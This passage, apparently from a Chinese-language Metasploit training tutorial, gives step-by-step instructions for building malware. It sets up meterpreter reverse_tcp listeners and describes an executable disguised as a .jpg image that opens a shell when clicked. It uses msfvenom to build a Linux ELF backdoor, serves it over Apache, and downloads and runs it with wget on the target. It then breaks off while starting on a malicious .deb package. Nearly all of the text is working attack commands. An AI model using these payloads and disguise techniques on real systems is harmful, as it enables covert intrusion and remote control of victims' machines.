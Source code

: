 ###### 4、通过访问图片自动获取目标 shell 

```
msfdb run  
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
msf5 exploit(multi/handler) > set LHOST 192.168.36.136 
msf5 exploit(multi/handler) > set LPORT 4444 
msf6 exploit(multi/handler) > run 		

打开动漫 exe.jpg 图片文件自动打开  
MSF 成功上线 临时目录下文件也都存在。 C:\Windows\Temp
```

#### 三、实战-制作 Linux 恶意软件获取 shell 

###### 1、使用 msfvenom 生成 linux 可执行文件 

```
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp  LHOST=192.168.36.136 LPORT=4444 -b "\x00" -f elf -o /var/www/html/xuegod

 	参数和生成 Windows 差不多 
 			--platform 指定 linux -f 指定 elf 即 linux 操作系统的可执行文件类型 
 			-b 去掉坏字符 
 			
systemctl start apache2 #开启 apache  
```

###### 2、MSF 配置监听 

```
msfconsole 
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST 192.168.36.136 msf6 exploit(multi/handler) > set LPORT 4444 
msf6 exploit(multi/handler) > exploit 	

		[*] Started reverse TCP handler on 192.168.36.136:4444 
		
打开 centos 7.5 linux 虚拟机，新建一个终端： 
wget http://192.168.36.136/xuegod 	#下载后门 添加执行权限 
chmod +x xuegod   
./xuegod  			#执行程序

我们回到 MSF 控制台 Session 已经建立 
meterpreter > ifconfig  
```

#### 四、实战-制作恶意 deb 软件包来触发后门 

```
制作恶意软件包使用--download-only 方式下载软件包不进行安装 
apt --download-only install freesweep 	#freesweep 
```
